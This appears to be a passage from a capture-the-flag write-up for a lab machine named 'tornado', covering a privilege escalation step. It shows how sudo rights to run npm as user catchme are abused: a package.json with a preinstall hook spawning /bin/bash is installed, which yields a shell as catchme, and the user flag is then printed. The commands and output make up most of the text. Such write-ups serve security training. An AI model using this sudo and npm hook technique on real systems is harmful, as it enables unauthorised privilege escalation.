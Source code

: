 ## Privilege Escalation
### Sudo Permissions

With sudo is possible to run the **npm** program as user catchme without password. NPM is a package manager for Node.js packages.

```console
www-data@tornado:/var/www/html/bluesky$ sudo -l
Matching Defaults entries for www-data on tornado:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on tornado:
    (catchme) NOPASSWD: /usr/bin/npm
```

Create the **package.json** file in a directory for a new node project. Any package installed in the project will be reflected in this file.

```bash
www-data@tornado:/dev/shm$ mkdir app
www-data@tornado:/dev/shm$ cat app/package.json 
{
  "name": "catchme",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

Additionally, the **package.json** file can be created with the **npm init** command, and doing it small changes to the file.

Run the following command to get a shell as **catchme** user.

```bash
www-data@tornado:/dev/shm$ sudo -u catchme npm i app/ --unsafe
npm WARN npm npm does not support Node.js v10.21.0
npm WARN npm You should probably upgrade to a newer version of node as we
npm WARN npm can't make any promises that npm will work with this version.
npm WARN npm Supported releases of Node.js are the latest release of 4, 6, 7, 8, 9.
npm WARN npm You can find the latest version at https://nodejs.org/

> catchme@1.0.0 preinstall /dev/shm/node_modules/catchme
> /bin/bash

catchme@tornado:/dev/shm/app$ whoami
catchme
catchme@tornado:/dev/shm/app$ 
```

In the **catchme** home directory there is a python script, probably a path to root.

```console
catchme@tornado:~$ ls
enc.py  user.txt
catchme@tornado:~$ cat user.txt 
HMVkeyedcaesar
```
